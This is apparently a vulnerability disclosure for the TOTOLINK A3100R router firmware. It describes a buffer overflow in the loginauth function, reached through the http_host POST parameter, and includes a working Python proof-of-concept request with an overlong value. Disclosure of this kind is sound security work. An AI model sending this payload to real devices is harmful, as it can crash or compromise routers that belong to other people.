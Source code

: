 ## Overview

- Manufacturer's website information：https://www.totolink.net/
- Firmware download address ：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/170/ids/36.html

## Affected version

A3100R V4.1.2cu.5050_B20200504

## Vulnerability details

In the A3100R V4.1.2cu.5050_B20200504 firmware has a buffer overflow vulnerability in the `loginauth` function. The `v8` variable receives the `http_host` parameter from a POST request. However, since the user can control the input of `http_host`, the statement `strcpy(v26, v8);` can cause a buffer overflow injection vulnerability.

![image-20240719101917489](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240719101917489.png)

![image-20240719101821295](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240719101821295.png)

![image-20240719101834445](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240719101834445.png)

## POC

```python
import requests
url = "http://127.0.0.1/cgi-bin/cstecgi.cgi"
cookie = {"Cookie":"SESSION_ID=2:1721039211:2"}
data = {"username":"admin","password":"admin","http_host":"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa","verify":"0","flag":"0","topicurl":"loginAuth"}
response = requests.post(url, cookies=cookie, json=data)
print(response.text)
print(response)
```

![image-20240719101631080](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240719101631080.png)
